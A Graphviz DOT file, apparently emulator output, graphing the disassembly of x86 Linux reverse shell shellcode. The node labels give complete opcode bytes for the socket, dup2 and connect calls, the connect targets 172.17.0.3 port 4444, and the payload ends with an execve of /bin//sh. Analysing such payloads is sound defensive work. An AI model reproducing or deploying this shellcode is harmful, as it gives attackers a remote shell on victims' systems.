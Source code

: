 digraph G {
	//rankdir=LR
	node [fontcolor="#ebe2bb", color="#ebe2bb", fontname=Courier, labeljust=r];
	 "0x5567aef1db20" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 89E1                            mov ecx,esp\l0x0041700b B066                            mov al,0x66\l"]
	 "0x5567aef19ca0" [shape=box, style=filled, color="#32302f", label = "0x0041700d socket\l"]
	 "0x5567aef195c0" [shape=box, label = "0x0041700f 93                              xchg eax,ebx\l0x00417010 59                              pop ecx\l"]
	 "0x5567aef18150" [shape=box, label = "0x00417011 B03F                            mov al,0x3f\l"]
	 "0x5567aef178e0" [shape=box, style=filled, color="#32302f", label = "0x00417013 dup2\l"]
	 "0x5567aef229a0" [shape=box, label = "0x00417015 49                              dec ecx\l"]
	 "0x5567aef22b10" [shape=box, label = "0x00417016 79F9                            jns 0xfffffffb\l"]
	 "0x5567aef22c40" [shape=box, label = "0x00417018 68AC110003                      push dword 0x30011ac\l0x0041701d 680200115C                      push dword 0x5c110002\l0x00417022 89E1                            mov ecx,esp\l0x00417024 B066                            mov al,0x66\l0x00417026 50                              push eax\l0x00417027 51                              push ecx\l0x00417028 53                              push ebx\l0x00417029 B303                            mov bl,0x3\l0x0041702b 89E1                            mov ecx,esp\l"]
	 "0x5567aef23980" [shape=box, style=filled, color="#32302f", label = "0x0041702d connect\l"]
	 "0x5567aef23ab0" [shape=box, label = "0x0041702f 52                              push edx\l0x00417030 686E2F7368                      push dword 0x68732f6e\l0x00417035 682F2F6269                      push dword 0x69622f2f\l0x0041703a 89E3                            mov ebx,esp\l0x0041703c 52                              push edx\l0x0041703d 53                              push ebx\l0x0041703e 89E1                            mov ecx,esp\l0x00417040 B00B                            mov al,0xb\l"]
	 "0x5567aef24710" [shape=box, style=filled, color="#32302f", label = "0x00417042 execve\l"]
	 "0x5567aef1db20" -> "0x5567aef19ca0" [style = bold, color="#ebe2bb" ]
	 "0x5567aef19ca0" -> "0x5567aef195c0" [style = bold, color="#ebe2bb" ]
	 "0x5567aef195c0" -> "0x5567aef18150" [style = bold, color="#ebe2bb" ]
	 "0x5567aef18150" -> "0x5567aef178e0" [style = bold, color="#fe8019" ]
	 "0x5567aef178e0" -> "0x5567aef229a0" [style = bold, color="#fe8019" ]
	 "0x5567aef229a0" -> "0x5567aef22b10" [style = bold, color="#fe8019" ]
	 "0x5567aef22b10" -> "0x5567aef18150" [style = bold, color="#fe8019" ]
	 "0x5567aef22b10" -> "0x5567aef22c40" [style = bold, color="#ebe2bb" ]
	 "0x5567aef22c40" -> "0x5567aef23980" [style = bold, color="#ebe2bb" ]
	 "0x5567aef23980" -> "0x5567aef23ab0" [style = bold, color="#ebe2bb" ]
	 "0x5567aef23ab0" -> "0x5567aef24710" [style = bold, color="#ebe2bb" ]
}
